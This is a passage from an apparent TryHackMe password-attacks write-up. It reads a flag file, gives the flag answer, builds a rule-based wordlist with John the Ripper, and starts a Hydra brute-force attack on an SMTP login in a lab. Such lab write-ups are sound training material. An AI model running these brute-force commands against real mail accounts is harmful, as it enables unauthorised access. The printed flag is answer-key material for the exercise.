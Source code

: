 Switching back out the FTP :

```console
root@ip-10-10-226-237:~/Desktop/test# ls
clinic.lst  crunch.txt  cupp  flag.txt  hash1.txt  hash2.txt  ip.txt
root@ip-10-10-226-237:~/Desktop/test# cat flag.txt 
THM{d0abe799f25738ad739c20301aed357b}
```
{: .nolineno }

Answer : THM{d0abe799f25738ad739c20301aed357b}

### In this question, you need to generate a rule-based dictionary from the wordlist clinic.lst in the previous task. email: pittman@clinic.thmredteam.com against 10.10.129.191:25 (SMTP). What is the password? Note that the password format is as follows: [symbol][dictionary word][0-9][0-9].

Adding our rule to john.conf file :

![john.conf](/images/thm/passwordattacks/passwordattacks_9.png)
_john.conf_

Then generate the dictioary wordlist from clinic one :

```console
root@ip-10-10-226-237:~/Desktop/test# john --wordlist=clinic.lst --rules=THM-Password-Attacks --stdout > dict.lst
Using default input encoding: UTF-8
Press 'q' or Ctrl-C to abort, almost any other key for status
21000p 0:00:00:00 100.00% (2022-04-16 11:36) 525000p/s @ultricies99
```
{: .nolineno }

We can now run our SMTP attack :

```console
root@ip-10-10-226-237:~/Desktop/test# hydra -l pittman@clinic.thmredteam.com -P dict.lst smtp://10.10.129.191:25 -v
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-04-16 11:37:27
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 21000 login tries (l:1/p:21000), ~1313 tries per task
[DATA] attacking smtp://10.10.129.191:25/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
```
